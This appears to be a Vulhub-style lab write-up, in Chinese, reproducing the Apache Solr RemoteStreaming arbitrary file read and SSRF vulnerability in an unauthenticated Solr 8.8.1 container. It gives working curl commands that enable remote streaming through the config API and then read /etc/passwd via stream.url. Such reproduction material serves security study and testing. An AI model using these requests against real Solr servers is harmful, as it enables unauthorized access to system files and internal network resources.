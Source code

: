 # Apache Solr RemoteStreaming 文件读取与SSRF漏洞

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

参考链接：

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## 环境搭建

Vulhub执行如下命令启动solr 8.8.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8983`即可查看Apache Solr后台。

## 漏洞复现

首先，访问`http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`获取数据库名：

![image-20220301133315348](images/202203011333403.png)

发送如下数据包，修改数据库`demo`的配置，开启`RemoteStreaming`：

```
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://your-ip:8983/solr/demo/config'
```

![image-20220301133429439](images/202203011334580.png)

再通过`stream.url`读取任意文件：

```
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![image-20220301133519998](images/202203011335312.png)

